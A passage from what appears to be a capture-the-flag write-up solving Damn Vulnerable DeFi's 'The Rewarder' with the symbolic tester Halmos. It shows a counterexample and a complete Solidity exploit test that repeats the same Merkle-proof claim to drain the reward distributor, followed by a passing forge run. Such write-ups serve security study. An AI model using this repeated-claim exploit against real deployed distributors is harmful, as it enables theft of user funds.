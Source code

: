```javascript
halmos_SymbolicInputToken_address_05635b7_29 = 0x00000000000000000000000000000000aaaa0004
halmos_SymbolicInputToken_address_7b0d29c_30 = 0x00000000000000000000000000000000aaaa0004
```
Remember that we replaced the inputTokens[inputClaim] logic with a SymbolicInputToken, therefore, the logic of the bug is not so obvious from the counterexample. But nevertheless - a bug was found.
## Using a counterexample
In the Halmos test, we ignored cryptographic checks. However, we will use them here. We also remember that we need to transfer all funds to recovery. So, let's build an attack so as to empty the distributor for the maximum possible amount:
```solidity
function test_theRewarder() public checkSolvedByPlayer {
    bytes32[] memory dvtLeaves = _loadRewards(
        "/test/the-rewarder/dvt-distribution.json"
    );
    bytes32[] memory wethLeaves = _loadRewards(
        "/test/the-rewarder/weth-distribution.json"
    );
    uint256 dvtPlayerReward = 11524763827831882;
    uint256 wethPlayerReward = 1171088749244340;
    uint256 dvtAttackCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / dvtPlayerReward;
    uint256 wethAttackCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / wethPlayerReward;

    Claim[] memory claims = new Claim[](dvtAttackCount + wethAttackCount);
    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));
    for (uint256 i = 0; i < dvtAttackCount; i++) {
        claims[i] = Claim({
        batchNumber: 0, // claim corresponds to first DVT batch
        amount: dvtPlayerReward,
        tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
        proof: merkle.getProof(dvtLeaves, 188) // player's address is at index 188
        });
    }
    for (uint256 i = 0; i < wethAttackCount; i++) {
        claims[dvtAttackCount + i] = Claim({
        batchNumber: 0, // claim corresponds to first DVT batch
        amount: wethPlayerReward,
        tokenIndex: 1, // claim corresponds to first token in `tokensToClaim` array
        proof: merkle.getProof(wethLeaves, 188) // player's address is at index 188
        });
    }

    distributor.claimRewards({
        inputClaims: claims,
        inputTokens: tokensToClaim
    });

    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}
```
Run:
```javascript
$ forge test --mp test/the-rewarder/TheRewarder.t.sol
...
[PASS] test_theRewarder() (gas: 1005136185)
...
```
Another challenge was solved using a bug found by Halmos!
## Fuzzing time